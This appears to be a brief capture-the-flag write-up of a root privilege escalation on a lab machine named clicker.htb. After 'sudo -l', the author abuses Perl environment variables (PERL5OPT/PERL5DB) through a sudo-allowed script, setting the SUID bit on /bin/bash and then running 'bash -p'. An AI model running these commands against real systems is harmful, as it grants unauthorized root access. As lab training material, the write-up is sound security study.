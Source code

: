 
When I was the user jack. The first thing that I did was 
`sudo -l`

And I was able to use this binary: 

```
sudo /opt/monitor.sh
```
This is what is inside of this binary, looks like is using another binary 
/usr/bin/xml_pp
```
strings /opt/monitor.sh
#!/bin/bash
if [ "$EUID" -ne 0 ]
  then echo "Error, please run as root"
  exit
set PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
unset PERL5LIB;
unset PERLLIB;
data=$(/usr/bin/curl -s http://clicker.htb/diagnostic.php?token=secret_diagnostic_token);
/usr/bin/xml_pp <<< $data;
if [[ $NOSAVE == "true" ]]; then
    exit;
else
    timestamp=$(/usr/bin/date +%s)
    /usr/bin/echo $data > /root/diagnostic_files/diagnostic_${timestamp}.xml

```

The method file gives me this:

```
kali> file /usr/bin/xml_pp
/usr/bin/xml_pp: Perl script text executable
```

The name of this vulnerability is called  “perl_startup” Privilege Escalation.

This consist on execute scripts with root privileges, as I had the ability to configure the environment while running Perl.


`sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh`

`bash -p`


And that's all !!



Assets for understand the priviledge scalation:

https://www.hackingarticles.in/linux-for-pentester-perl-privilege-escalation/

https://medium.com/@DGclasher/privilege-escalation-through-perl-environment-variables-349b39ca01

https://www.exploit-db.com/exploits/39702